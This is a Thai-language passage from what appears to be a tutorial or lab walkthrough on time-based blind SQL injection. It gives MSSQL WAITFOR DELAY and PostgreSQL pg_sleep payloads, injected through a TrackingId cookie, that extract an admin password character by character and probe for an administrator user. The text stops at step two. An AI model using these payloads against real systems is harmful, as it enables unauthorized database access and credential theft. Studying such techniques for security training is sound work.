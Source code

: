 ## เทคนิคเพิ่มประสิทธิภาพ

### 1. ใช้ Binary Search:
```sql
-- แทนที่จะทดสอบ a-z ทีละตัว
-- เริ่มจากทดสอบว่ามากกว่า 'm' หรือไม่
'; IF (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin') > 'm' WAITFOR DELAY '0:0:5'--
```

### 2. ทดสอบหลายตัวอักษรพร้อมกัน:
```sql
'; IF (SELECT SUBSTRING(password,1,3) FROM users WHERE username='admin') = 'abc' WAITFOR DELAY '0:0:5'--
```

## สรุป

Time-based blind SQL injection เป็นเทคนิคที่มีประสิทธิภาพเมื่อวิธีอื่นใช้ไม่ได้ แต่ต้องใช้เวลานานและต้องระวังเรื่อง network latency การเลือกใช้ delay time ที่เหมาะสมและการใช้เทคนิค binary search จะช่วยเพิ่มประสิทธิภาพได้มาก!

# วิธีการแก้ปัญหา Time-based Blind SQL Injection แบบละเอียด

## ขั้นตอนที่ 1: ทดสอบ Time Delay เบื้องต้น

**เข้าไปที่หน้าแรกของเว็บไซต์และใช้ Burp Suite จับ request ที่มี TrackingId cookie**

### ทดสอบเงื่อนไขที่เป็นจริง (ควร delay 10 วินาที):
```
TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

**อธิบาย URL encoding:**
- `%3B` = `;` (semicolon)
- `+` = ` ` (space)
- เมื่อ decode แล้วจะได้: `x';SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--`

**ผลลัพธ์:** แอปพลิเคชันควรใช้เวลา 10 วินาทีในการตอบสนอง

### ทดสอบเงื่อนไขที่เป็นเท็จ (ไม่ควร delay):
```
TrackingId=x'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

**ผลลัพธ์:** แอปพลิเคชันควรตอบสนองทันทีโดยไม่มี delay

## ขั้นตอนที่ 2: ทดสอบหา User Administrator

```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
